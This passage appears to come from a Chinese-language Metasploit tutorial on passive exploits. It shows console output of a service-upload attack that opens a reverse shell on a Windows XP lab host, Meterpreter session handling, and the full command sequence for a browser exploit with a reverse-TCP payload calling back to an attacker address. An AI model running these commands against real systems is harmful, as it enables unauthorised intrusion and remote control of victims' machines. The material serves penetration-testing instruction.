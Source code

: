 ```shell
[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'victim'...
[*] Uploading payload...
[*] Created \hikmEeEM.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \hikmEeEM.exe...
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

#### 2.3.2 PASSIVE EXPLOITS

被动渗透会等待传入的主机并在它们连接时加以利用。
- 被动漏洞利用几乎总是集中在Web浏览器，FTP客户端等客户端上。
- 它们也可以与电子邮件攻击结合使用，以等待连接。
- 可以通过将'-l'传递给session命令来枚举被动漏洞利用报告shell的状态。
- 传递“ -i”将与外壳交互。

```Shell
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
===============

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```


下面是一个例子，展示了安装渗透动画光标漏洞的后，渗透直至被攻击目标的浏览器连接到我们的恶意网站时才激活。

```shell
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
[*] Exploit running as background job.

[*] Started reverse handler
[*] Using URL: http://0.0.0.0:8080/
```